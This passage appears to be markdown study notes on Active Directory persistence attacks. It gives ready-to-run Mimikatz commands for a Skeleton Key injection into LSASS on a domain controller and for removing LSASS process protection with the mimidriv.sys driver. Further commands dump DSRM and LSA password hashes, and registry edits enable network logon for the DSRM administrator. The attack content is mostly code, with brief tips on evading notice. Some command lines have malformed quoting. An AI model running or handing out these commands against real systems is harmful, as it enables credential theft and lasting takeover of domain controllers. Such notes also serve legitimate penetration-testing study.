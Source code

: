 Command:
```bash
Invoke-Mimikatz -Command "privilege::debug" "misc::skeleton" -ComputerName dcorp.domain.local
```
*Password is default mimikatz password*

> You can use it only once if LSASS got patched you cannot reuse it untill DC reboots

==You will see an error if lsass is already patched==

> LSASS (Local Security Authority Server Service) is a process in Microsoft Windows operating systems that is responsible for enforcing the security policy on the system. It verifies users logging on to a Windows computer or server, handles password changes, and creates access tokens.

[Resource](https://book.hacktricks.xyz/windows/active-directory-methodology/skeleton-key)

##### If LSASS is running in protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC:
```bash
privilege::debug
!+
!processprotect /process:lsass.exe /remove
misc:skeleton
!-
```
*This is a noisy process which could easily seen in logs- Service installation(Kernal Mode Driver)*



<center><h1>DSRM</h1></center>

By default DSRM doesnt allowed to logon into the DC in the Network

- DSRM is Directory  Service Restore Mode
- DSRM password is set when the server is promoted to Domain Controller. So it is rarely that somone chages it time to time, *Hence persitence time of this is longer than Golden Ticket Attack* 
- There is a local administrator on every DC called "Administrator"  *mostly* whose password is the DSRM password
- DSRM password (SafeModePassword) is required when a server is promoted to Domain Controller and it is rarely changed
- After altering the configuration on the DC, it is possible to pass the NTLM hash of this user to access the DC

Dump DSRM password (Needs Domain Admin Privileges)
```bash
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dcorp-dc
```
Compare the Adminitrator hash with the Administrator hash of below command
```bash
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

- First one is the DSRM local Administrator.

*As we know DSRM dont have logon access so we need to chage it and for that we need to change the registry key*
```bash
Enter-PSSession -ComputerName dcorp-dc

New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior"" -Value 2 -PropertyType DWORD -Verbose

# if Item is already there check the item presence
Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\""

# Set the Item property
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior"" -Value 2

Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\"
```